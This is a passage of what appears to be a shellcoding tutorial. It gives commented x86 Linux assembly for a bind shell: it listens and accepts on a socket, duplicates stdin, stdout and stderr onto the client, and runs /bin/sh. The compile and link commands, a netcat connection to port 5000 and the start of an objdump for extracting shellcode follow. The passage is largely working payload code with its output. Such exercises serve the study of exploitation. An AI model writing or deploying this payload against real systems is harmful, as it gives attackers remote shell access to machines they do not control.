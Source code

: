         ; Call listen
        xchg ecx, edx           ; set up the backlog parameter
        mov ax, 0x016B          ; set syscall number for listen
        int 0x80                ; make the call

        xor ecx, ecx            ; zero out registers
        mov ax, 0x016c          ; set accept syscall
        int 0x80                ; make the call
        xchg ebx, eax           ; store the client socket fd in ebx so we can use for the dup call

        mov cl, 0x2
loop:
        mov al, 0x3f            ; setup dup2 call
        int 0x80                ; call dup2
        dec ecx                 ; decrement the loop counter
        jns loop                ; if the sign flag is not set then repeat the loop
                                ; this will tie our stdin, out and error to the client socket

        xor  eax, eax
        push eax                ; push NULL onto stack to termins //bin/sh
        push 0x68732f6e         ; push //bin/sh in reverse onto the stack
        push 0x69622f2f         ; see above
        mov  ebx, esp           ; move address of //bin/sh into EBX (execve's 1st parameter)
        push eax                ; this serves two purposes 1, to use for EDX (we will pass no
                                ; environment to the shell and also as part of the array of
                                ; args that we will pass to as the 2nd arg of execve
        mov  edx, esp           ; see above
        push ebx                ; ESP now points to and array of args [address of //bin/sh, 0x00]
                                ; these will act as the args to //bin/sh
        mov ecx, esp            ; setup the 3rd argument
        mov al, 0x0b            ; set the EAX register to the execve sys call number
                                ; using al to remove any null bytes
        int 0x80                ; make the call
{{< / highlight >}}

Lets compile, link and run it
```
 $ x86asm -f elf32 -o bind.o bind_shell.x86asm
 $ ld -m elf_i386 -o bind bind.o
 $ ./bind

```
And now on another shell
```
  $ nc localhost 5000
ls
bind
bind.o
bind_shell
bind_shell.c
bind_shell.x86asm

```
Woop woop, party time!! Well not quite we wanted shellcode not and assembly
program. Lets run this through objdump
```
  $ objdump -d bind.o

bind.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 c0                   xor    %eax,%eax
   2:   31 db                   xor    %ebx,%ebx
```

[socket]: https://linux.die.net/man/7/socket  "Socket Man page docs"
[bind]: https://linux.die.net/man/7/bind  "Bind Man page docs"
[listen]: https://linux.die.net/man/7/listen  "listen Man page docs"
[bind]: https://linux.die.net/man/7/bind  "bind Man page docs"
[accept]: https://linux.die.net/man/7/accept  "accept Man page docs"
[dup2]: https://linux.die.net/man/7/dup2  "dup2 Man page docs"
[execve]: https://linux.die.net/man/7/execve  "execve Man page docs"